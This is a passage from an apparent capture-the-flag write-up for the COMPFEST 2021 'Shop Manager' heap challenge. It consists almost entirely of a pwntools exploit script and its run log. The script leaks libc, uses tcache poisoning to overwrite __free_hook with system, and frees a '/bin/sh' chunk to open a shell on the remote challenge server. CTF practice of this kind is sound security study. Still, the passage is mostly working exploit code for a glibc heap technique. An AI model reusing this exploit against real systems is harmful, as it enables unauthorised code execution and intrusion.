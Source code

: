 ```python  
def List():  
 s.sendlineafter("> ", "4")

def Sell(idx, item):  
 s.sendlineafter("> ", "5")  
 s.sendlineafter("): ", str(idx))  
 s.sendlineafter("item?\n", item)

def Exit():  
 s.sendlineafter("> ", "6")

for i in range(16):  
 Add(chr(0x41+i)*8, 1)

# libc leak  
Edit(0, "a"*0x28+p64(0x431), 1)  
Delete(1)  
Add("b", 2)  
List()  
for i in range(2):  
 s.recvuntil("Price: ")  
libc_leak = int(s.recvuntil("\n"))  
libc_base = libc_leak - libc.sym.__malloc_hook - 0x70  
free_hook = libc_base + libc.sym.__free_hook  
system_addr = libc_base + libc.sym.system  
print "libc_leak =", hex(libc_leak)  
print "libc_base =", hex(libc_base)

# tcache poisoning  
Add("c", 3)  
Delete(5)  
Delete(1)  
Edit(14, "d", free_hook)

# Write system address in __free_hook  
Add("e", u64("/bin/sh\x00"))   # 14  
Add("f", system_addr)

# Start shell  
Delete(14)

s.interactive()  
```

## Results:  
```bash  
mito@ubuntu:~/CTF/COMPFEST_CTF_2021/Pwn_Shop_Manager/shop-manager-master-
public/public$ python solve.py r  
[*] '/home/mito/CTF/COMPFEST_CTF_2021/Pwn_Shop_Manager/shop-manager-master-
public/public/chall'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
[+] Opening connection to 103.152.242.242 on port 39221: Done  
[*] '/home/mito/CTF/COMPFEST_CTF_2021/Pwn_Shop_Manager/shop-manager-master-
public/public/libc-2.27.so'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
```